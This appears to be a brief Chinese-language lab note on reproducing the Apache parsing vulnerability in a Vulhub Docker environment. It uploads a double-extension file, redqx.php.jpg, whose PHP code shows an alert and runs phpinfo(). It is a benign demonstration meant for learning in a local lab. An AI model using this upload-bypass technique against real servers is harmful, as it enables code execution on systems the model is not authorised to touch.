



```
cd vulhub-master/httpd/apache_parsing_vulnerability/
docker-compose up -d
```


访问



好像默认是80端口


选择上传一个文件 redqx.php.jpg

```php
<?php
       echo "<script>alert('hi redqx')</script>";
       phpinfo();
?>
```


上传成功



然后访问




然后关闭

```
docker-compose down
```

